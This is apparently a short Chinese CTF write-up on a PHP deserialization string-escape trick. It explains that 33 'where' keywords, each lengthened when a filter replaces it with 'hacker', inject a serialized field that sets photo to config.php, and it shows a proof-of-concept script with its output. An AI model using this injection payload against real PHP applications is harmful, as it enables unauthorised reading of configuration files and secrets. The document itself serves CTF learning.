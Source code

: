    需要绕过nickname的正则，用数组绕过即可。



需要逃逸的变量为`$photo='config.php'`，目标子串为`";s:5:"photo";s:10:"config.php";}`，共33个字符，一个where在替换后长度加1，所以需要33个where。

payload

```php
<?php
function filter($string){
    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string);
}

$profile['phone'] = '12345678901';
$profile['email'] = '734541725@qq.com';
$profile['nickname'] = 'wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}';
$profile['photo'] = 'sadasd';

var_dump(serialize($profile));

$serialize_info = filter(serialize($profile));

echo "过滤后:",$serialize_info,"\n";

echo "反序列化后：";

var_dump(unserialize($serialize_info));
```

```php
string(320) "a:4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:16:"734541725@qq.com";s:8:"nickname";s:198:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}";s:5:"photo";s:6:"sadasd";}"
过滤后:a:4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:16:"734541725@qq.com";s:8:"nickname";s:198:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:5:"photo";s:10:"config.php";}";s:5:"photo";s:6:"sadasd";}
反序列化后：E:\浏览器下载\chrome\新建文件夹\2.php:21:
array(4) {
  'phone' =>
  string(11) "12345678901"
  'email' =>
  string(16) "734541725@qq.com"
  'nickname' =>
  string(198) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker"
  'photo' =>
  string(10) "config.php"
}
```
